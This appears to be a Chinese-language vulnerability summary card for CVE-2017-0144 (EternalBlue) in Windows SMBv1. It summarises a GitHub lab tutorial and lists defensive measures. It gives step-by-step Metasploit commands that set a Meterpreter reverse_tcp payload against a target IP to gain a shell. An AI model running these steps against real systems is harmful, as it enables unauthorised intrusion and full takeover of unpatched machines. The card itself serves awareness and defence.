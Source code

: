 ## CVE-2017-0144 Windows SMB 远程代码执行漏洞 (EternalBlue)

**漏洞编号:** CVE-2017-0144

**漏洞类型:** 远程代码执行

**影响应用:** Windows SMBv1

**危害等级:** 高危，可能导致远程代码执行，系统完全控制

**影响版本:** Windows Vista SP2, Windows Server 2008 SP2 and R2 SP1, Windows 7 SP1, Windows 8.1, Windows Server 2012 Gold and R2, Windows RT 8.1, Windows 10 Gold, 1511, and 1607; and Windows Server 2016

**利用条件:** 目标系统开启SMBv1服务，攻击者与目标系统网络可达，目标系统未安装MS17-010补丁。

**POC 可用性:** 是

**投毒风险:** 10%

## 详情

CVE-2017-0144 是一个存在于 Windows SMBv1 服务器中的远程代码执行漏洞，也被称为 EternalBlue。攻击者可以利用此漏洞通过发送特制的 SMB 数据包来执行任意代码。 

**有效性:**
根据漏洞库信息、搜索引擎结果和提供的漏洞利用代码（EternalBlue），此漏洞利用的有效性非常高。EternalBlue 被广泛用于实际攻击中，例如 WannaCry 勒索软件。

**投毒风险:**
提供的漏洞利用代码是一个实验教程，包含了如何使用 Metasploit 框架利用 EternalBlue 攻击 Windows 7 的步骤。该仓库主要用于演示攻击流程和提供缓解措施，因此直接包含恶意投毒代码的可能性较低。但是，任何代码都可能被修改以包含恶意功能。因此，在部署或使用任何第三方代码时，务必进行代码审查。此存储库中是否存在作者隐藏的投毒代码的可能性评估为10%，主要考虑到代码可能被修改后植入恶意代码。

**利用方式:**
1.  **环境准备:** 搭建存在漏洞的Windows系统(如Windows 7)和Kali Linux攻击机。
2.  **启动Metasploit:** 在Kali Linux上启动Metasploit框架 (`msfconsole`)。
3.  **搜索漏洞:** 使用 `search ms17_010` 搜索与 EternalBlue 相关的模块。
4.  **选择Exploit:** 选择合适的 EternalBlue exploit 模块 (`use 0`)。
5.  **配置Payload:**  设置要执行的Payload，例如 `set payload windows/x64/meterpreter/reverse_tcp`。 Payload用于在目标系统上执行恶意代码并建立反向连接。
6.  **设置目标IP:**  设置目标 Windows 系统的 IP 地址 (`set RHOST <目标IP>`)。
7.  **执行Exploit:** 运行 `exploit` 命令开始攻击。
8.  **获取Shell:** 如果攻击成功，Metasploit 将建立一个 Meterpreter 会话，允许攻击者在目标系统上执行命令，上传/下载文件等。
9.  **防御措施:**  教程还提供了一些防御措施，例如启用防火墙、安装 MS17-010 补丁、阻止端口 135 和 445 等。



**项目地址:** [luckyman2907/SMB-Protocol-Vulnerability_CVE-2017-0144](https://github.com/luckyman2907/SMB-Protocol-Vulnerability_CVE-2017-0144)

**漏洞详情:** [CVE-2017-0144](https://nvd.nist.gov/vuln/detail/CVE-2017-0144)